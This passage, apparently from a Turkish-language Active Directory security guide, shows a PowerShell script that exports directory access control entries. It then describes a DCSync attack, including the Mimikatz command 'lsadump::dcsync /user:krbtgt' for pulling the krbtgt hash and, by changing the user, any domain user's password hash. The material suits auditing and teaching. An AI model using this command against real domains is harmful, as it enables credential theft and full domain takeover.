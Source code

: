 ```powershell

    # Filtering Access Control Entries based on filter above
    Where-Object { 
        $_.AccessControlType -eq $AccessControlType -and 
        $_.IdentityReference -eq $IdentityReference -and 
        $_.ActiveDirectoryRights -like "*$ActiveDirectoryRights*" -and
        $_.IsInherited -eq $false
    }
} |

# Exporting found Access Control Entries into CSV file
Export-Csv -Path "FS1066-$DomainDistinguishedName-$ActiveDirectoryRights-ACLs.csv" -NoTypeInformation;
```

## Exploitation

DCSync saldırısı Mimikatz lsadump::dcsync modülü ile sömürülebilmektedir. Saldırı senaryosu Dizin Değişikliklerini Çoğaltma izinlerine ("Replicating Directory Changes" ve "Replicating Directory Changes All") sahip bir kullanıcı ele geçirildikten sonra Mimikatz aracıyla aşağıdaki komut çalıştırılarak Krbtgt parola hash değeri alınabilmektedir.

**Not** Mimikatz biletleri LSASS'a erişim sağlayarak dışarı aktarmaktadır. Bu nedenle aşağıdaki komutlar yönetici yetkileri ile çalıştırılmalıdır.

**Not** Bu komut üzerinde /user parametresine kullanıcı isimleri yazılarak domain üzerindeki bütün kullanıcıların parola hash bigileri alınabilmektedir.

```powershell
.\Mimikatz.exe "lsadump::dcsync /user:krbtgt"
```

![DCSync Attack](images/3.png)
